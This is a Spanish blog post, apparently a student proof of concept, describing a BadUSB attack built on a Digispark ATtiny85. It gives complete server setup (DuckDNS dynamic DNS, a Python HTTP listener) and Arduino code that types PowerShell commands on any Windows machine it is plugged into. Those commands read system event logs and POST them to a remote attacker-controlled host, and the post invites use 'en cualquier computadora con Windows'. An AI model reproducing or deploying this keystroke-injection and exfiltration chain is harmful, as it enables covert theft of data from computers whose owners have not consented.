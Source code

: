 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-09-25T03:54:46.649Z
title: Prueba de Concepto Attiny85
slug: tarea-998-prueba-de-concepto
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
description: Prueba de Concepto Attiny85.
---
```


# Tarea 998: Prueba de Concepto Attiny85

## Objetivo

El objetivo de esta prueba de concepto es obtener los logs de un sistema Windows y enviarlos a un servidor remoto.

## Desarrollo

### Configuración del servidor remoto

1. El servidor remoto es una maquina virtual con el sistema `Ubuntu Server 24.04.1 LTS`, la cual usa una connexión de tipo Bridge con IP Dinámica, por tanto se debe configurar un servicio de DNS dinámico para poder acceder a la maquina virtual desde cualquier lugar.

    ![Ubuntu Server](../../assets/images/sisprog/server.png)

2. Se Creó un dominio en [DuckDNS](https://www.duckdns.org/) para poder acceder al servidor remoto desde cualquier lugar.

3. Para configurar el servicio de DNS dinámico se debe instalar el paquete `ddclient`, y configurar el archivo `/etc/ddclient.conf` con los siguientes datos:

    ```bash
        # Configuration file for ddclient generated by debconf
        

        protocol=duckdns \
        use=if, if='tu tarjeta de red' \
        server=www.duckdns.org \
        login='tu usuario' \
        password='tu token' \
        tu_dominio.duckdns.org
    ```

    * `tu tarjeta de red`: Es la tarjeta de red que se esta utilizando, se puede obtener con el comando `ifconfig`. Isntalar el paquete `net-tools` si no se tiene instalado: `sudo apt -y install net-tools`.
    * si deseas activar el servicio de DNS dinámico, se debe ejecutar el siguiente comando:

    ```bash
        sudo systemctl enable ddclient
        sudo systemctl start ddclient
    ```

    * Instalar el paquete `ddclient`:

    ```bash
        sudo apt install -y ddclient
    ```

4. Se activó el firewall de Ubuntu y se abrieron los puertos 22 y 8080.

    ```bash
        sudo ufw enable
        sudo ufw allow 22
        sudo ufw allow 8080
    ```

### Configuración de servidor Python

1. Se creó un servidor básico en Python que escucha en el puerto 8080 y recibe los logs de un cliente.

    ```python
    import os
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class LogHandler(BaseHTTPRequestHandler):
        def do_POST(self):
            if self.path == "/logs":
                content_length = int(self.headers['Content-Length'])
                post_data = self.rfile.read(content_length).decode('utf-8')

                log_file_path = os.path.expanduser("~/logs/windows_logs.txt")

                os.makedirs(os.path.dirname(log_file_path), exist_ok=True)

                with open(log_file_path, "a") as log_file:
                    print(post_data)
                    log_file.write(post_data + "\n")

                self.send_response(200)
                self.end_headers()
            else:
                # 405 Method not allowed
                self.send_response(405)
                self.end_headers()

    def run(server_class=HTTPServer, handler_class=LogHandler):
        server_address = ('', 8080)  # Escuchar en el puerto 8080
        httpd = server_class(server_address, handler_class)
        print("Gatovsky Server Listening at 8080")
        httpd.serve_forever()

    if __name__ == "__main__":
        run()
    ```

    * Para ejecutar el servidor se debe ejecutar el siguiente comando:

        ```bash
            python3 server.py
        ```

    * El servidor escucha en el puerto 8080 y guarda los logs en el archivo `~/logs/windows_logs.txt`. Debes crear la carpeta `logs` si no existe.

    Nota: esto se hizo en el `Home` del usuario.

### Configuración de Arduino IDE 2.x

1. En Archivos > Preferencias > URLs de placas adicionales pega el siguiente enlace: `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` esto permitirá instalar las placas de Digistump.

    ![Digistump](../../assets/images/sisprog/IMG_8763.jpg)

2. En Herramientas > Placa > Gestor de tarjetas busca `Digistump AVR Boards` e instala la versión 1.6.7.
    ![Digistump](../../assets/images/sisprog/IMG_8761.jpg)

3. En Herramientas > Placa selecciona `Digispark (Default - 16.5mhz)`.
    ![Digispark](../../assets/images/sisprog/IMG_8762.jpg)

### Configuración del Attiny85

1. Una vez configurado el IDE Usa el siguiente código en un nuevo Sketch.

    ```c
    #include <DigiKeyboard.h>

    void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
    }

    void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(1000); 
    }

    void typeCommand() {
        DigiKeyboard.println("$logs = Get-EventLog -LogName System -Newest 5 | Out-String");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("$utf8logs = [System.Text.Encoding]::UTF8.GetBytes($logs)");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("Invoke-RestMethod -Uri http://dominio.duckdns.org:8080/logs -Method POST -Body $utf8logs");
        DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

    void setup() {}

    void loop() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(1000);

    typeCommand();

    // Espera 5 segundos antes de repetir (opcional)
    delay(5000);
    }
    ```

    * Se debe reemplazar `my_dominio.duckdns.org` por el dominio que se creó en DuckDNS.

2. Presiona el boton de `Subir` y espera el mensaje del IDE para insertar el Attiny85.
    ![Subir](../../assets/images/sisprog/IMG_8758.jpg)

3. Conecta el Attiny85 a un puerto USB y espera a que suba el código.
    ![Attiny85](../../assets/images/sisprog/IMG_8759.jpg)

4. Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás los logs en el servidor remoto.

![Server Run](../../assets/images/sisprog/IMG_8760.jpg)

![Server Logs](../../assets/images/sisprog/logs.png)
